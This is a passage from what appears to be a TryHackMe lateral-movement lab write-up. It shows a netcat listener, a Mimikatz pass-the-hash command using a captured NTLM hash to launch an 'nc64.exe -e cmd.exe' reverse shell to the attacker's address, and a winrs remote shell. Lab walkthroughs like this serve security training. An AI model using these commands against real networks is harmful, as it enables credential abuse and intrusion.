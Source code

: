     * Setup listerner
    
        ```
        nc -nlvp 5555
        ```

    * Use the extracted hashes to perform a PtH attack
    
        ```
        token::revert

        sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"C:\tools\nc64.exe -e cmd.exe 10.50.46.109 5555"
        ```

        ![task5-PtH](./images/task5-PtH.png)

    * Get the shell and flag on THMIIS desktop user
    

        ```
        winrs.exe -r:THMIIS.za.tryhackme.com cmd
        ```

        ![task5-flag](./images/task5-flag.png)
